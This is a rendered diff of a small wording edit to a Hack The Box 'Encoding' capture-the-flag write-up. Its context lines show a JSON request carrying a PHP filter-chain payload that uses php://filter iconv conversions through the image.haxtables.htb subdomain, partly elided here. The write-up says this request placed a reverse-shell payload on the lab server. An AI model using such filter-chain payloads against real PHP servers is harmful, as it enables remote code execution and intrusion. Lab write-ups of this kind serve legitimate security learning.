

Before and after one commit to MrKrYP70n/Writeups, a Markdown page: HTB-Encoding/htb-encoding.md, 2 parts joined by grey strips. GitHub-like rendering; grey boxes are pictures that could not be loaded.

`````diff
--- a/HTB-Encoding/htb-encoding.md
+++ b/HTB-Encoding/htb-encoding.md
@@ -43,7 +43,7 @@ In the Output I got new subdomain ``image.haxtables.htb`` & updated my  ``/etc/h
 ![image](https://user-images.githubusercontent.com/114393219/219800693-aa872ecc-c559-4a9e-8b77-3dcfe55edb18.png)
 
 <br><br>
-However, when trying to access said subdomain, we get a redirect to an ``HTTP 403 (Forbidden)`` status.
+However, when trying to access that subdomain, we get a redirect to an ``HTTP 403 (Forbidden)`` status.
 
 ![image](https://user-images.githubusercontent.com/114393219/219801079-2792bc4d-ec10-43ff-9621-abb8468e3cbc.png)
 
@@ -210,7 +210,8 @@ Connection: close
 {"action":"str2hex","data":"lol","uri_path":"whatever@image.haxtables.htb/actions/action_handler.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921................................................................................|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"}
 ````
 <br>
-Our request has been successfully executed and now our rev-shell file ``haha`` is on the server
+Our request has been successfully executed and now our rev-shell payload ``haha`` is on the server
+
 ![image](https://user-images.githubusercontent.com/114393219/219821774-b260bce8-9694-4616-a5d1-7f787cab6269.png)
 
 ## Reverse Shell
`````
Also changed, not shown: other parts of HTB-Encoding/htb-encoding.md (+2 -2 lines).
